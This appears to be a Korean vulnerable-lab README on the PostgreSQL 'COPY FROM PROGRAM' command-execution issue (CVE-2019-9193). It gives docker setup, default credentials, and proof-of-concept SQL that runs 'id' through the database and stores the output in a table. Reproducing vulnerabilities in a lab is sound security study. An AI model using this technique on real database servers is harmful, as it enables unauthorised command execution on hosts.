


# PostgreSQL 권한 명령 실행 취약점 (CVE-2019-9193)
### Contributors
* [이주호(@bmchun00)](https://github.com/bmchun00)

PostgreSQL은 관계형 데이터베이스입니다. 버전 9.3부터 11까지 관리자 또는 'COPY TO/FROM PROGRAM' 권한이 있는 사용자는 이 취약점을 응용하여 임의의 명령을 실행할 수 있습니다.

참고 링크 : 
* https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5

# 환경 구성
취약점이 있는 환경을 구성합니다.
```
docker compose up -d
```
해당 환경에서 Postgres의 기본 5432포트가 열리며, 계정 암호는 postgres/postgres입니다.

# Exploit
먼저 postgres에 연결하고 참조 링크에서 POC를 실행합니다.
```sql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```
FROM PROGRAM 문은 명령 id를 실행하고 결과를 cmd_exec 테이블에 저장합니다.



혹은 id명령어 대신 ls명령어 등을 사용해 쉘 명령어를 수행할 수있습니다.

